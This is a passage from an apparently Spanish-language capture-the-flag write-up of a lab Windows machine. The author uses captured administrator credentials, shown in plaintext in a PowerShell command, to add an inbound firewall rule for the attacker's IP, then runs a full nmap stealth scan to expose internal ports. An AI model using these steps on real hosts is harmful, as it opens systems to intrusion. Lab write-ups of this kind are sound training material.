 Ahora recordemos que tenemos privilegios como administradores, asi que podemos tratar de modificar las reglas de `firewall`, de modo que tengamos acceso a los puertos que estan abiertos internamente en la maquina.


```cmd
        $user = 'minion\Administrator'; $pass = '1234test'; $secPass = ConvertTo-SecureString $pass -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPass; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { New-NetFirewallRule -DisplayName fmiracle -RemoteAddress 10.10.16.10 -Direction inbound -Action allow }

Name                    : {fe96175f-38d1-451f-ad74-95e144f0d702}
ID                      : {fe96175f-38d1-451f-ad74-95e144f0d702}
Group                   : 
Platform                : {}
LSM                     : False
Profile                 : Any
PSComputerName          : localhost
RunspaceId              : 3cd818dd-a33a-4cf9-85a5-069c0144cf18
Caption                 : 
Description             : 
ElementName             : fmiracle
InstanceID              : {fe96175f-38d1-451f-ad74-95e144f0d702}
```

Si ahora tratamos de ver los puertos abiertos de la maquina.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.57
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-16 12:50 -05
Initiating SYN Stealth Scan at 12:50
Scanning 10.10.10.57 [65535 ports]
Discovered open port 445/tcp on 10.10.10.57
Discovered open port 135/tcp on 10.10.10.57
Discovered open port 139/tcp on 10.10.10.57
Discovered open port 80/tcp on 10.10.10.57
Discovered open port 3389/tcp on 10.10.10.57
Discovered open port 49153/tcp on 10.10.10.57
Discovered open port 49154/tcp on 10.10.10.57
Discovered open port 49157/tcp on 10.10.10.57
Discovered open port 62696/tcp on 10.10.10.57
Discovered open port 49152/tcp on 10.10.10.57
Discovered open port 49156/tcp on 10.10.10.57
Discovered open port 49155/tcp on 10.10.10.57
Discovered open port 5985/tcp on 10.10.10.57
Discovered open port 47001/tcp on 10.10.10.57
Completed SYN Stealth Scan at 12:51, 27.30s elapsed (65535 total ports)
Nmap scan report for 10.10.10.57
Host is up, received user-set (0.21s latency).
Scanned at 2023-10-16 12:50:43 -05 for 28s
Not shown: 65521 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
5985/tcp  open  wsman         syn-ack ttl 127
47001/tcp open  winrm         syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49155/tcp open  unknown       syn-ack ttl 127
49156/tcp open  unknown       syn-ack ttl 127
```